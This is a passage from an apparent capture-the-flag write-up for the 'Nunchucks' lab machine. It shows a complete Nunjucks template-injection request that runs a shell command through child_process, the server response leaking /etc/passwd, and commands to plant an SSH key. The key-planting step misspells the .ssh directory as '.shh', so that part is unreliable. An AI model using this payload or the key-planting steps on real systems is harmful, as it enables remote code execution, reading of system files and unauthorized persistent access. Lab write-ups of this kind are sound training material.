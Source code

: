 Next we needed to guess the used engine, as this box is named Nunchucks and there is a template engine named NUNJUCKS it seams as a quit good guess. 
So we changed our "email" to a NUNJUCKS SSTI exploit string that should execute `tail /etc/passwd` 
```fish
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=QXBvLF8usqF663WVVx8AwZAX
Content-Length: 127
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://store.nunchucks.htb
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://store.nunchucks.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}"}
```

and there response is:
```fish
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 04 May 2023 13:08:28 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 744
Connection: close
X-Powered-By: Express
ETag: W/"2e8-J+TpLegq6Ei0sr/u8xxp/hXEqcY"

{"response":"You will receive updates on the following email address: lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\nrtkit:x:113:117:RealtimeKit,,,:/proc:/usr/sbin/nologin\ndnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin\ngeoclue:x:115:120::/var/lib/geoclue:/usr/sbin/nologin\navahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin\ncups-pk-helper:x:117:123:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin\nsaned:x:118:124::/var/lib/saned:/usr/sbin/nologin\ncolord:x:119:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin\npulse:x:120:126:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin\nmysql:x:121:128:MySQL Server,,,:/nonexistent:/bin/false\n."}
```
looks good.

### Receiving the user flag
Next we started copying our own sshkey to the known hosts. Therefore we executed the following commands though the before mentioned exploit. 
```fish
mkdir ~/.shh
echo $SSHKEY > ~/.shh/authorized_keys
```
